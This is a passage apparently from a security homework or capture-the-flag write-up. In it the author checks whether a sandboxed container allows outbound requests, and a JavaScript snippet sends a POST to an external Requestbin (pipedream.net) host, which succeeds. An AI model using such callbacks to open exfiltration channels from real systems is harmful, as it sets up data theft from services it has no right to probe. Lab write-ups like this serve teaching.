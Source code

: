 ![image.png](/hw5b/image.png)

(Image of a poor, sad, empty Requestbin.)

Would it be possible that the container have some pre-installed modules? Let’s try to not require `https` and see what happens:

```jsx
const options = {
      hostname: "woahthisisverycool.m.pipedream.net",
      path: "/vowbecomefemboy",
      method: "POST"
}

const req = https.request(options)
req.end()
```

This time, it works! 
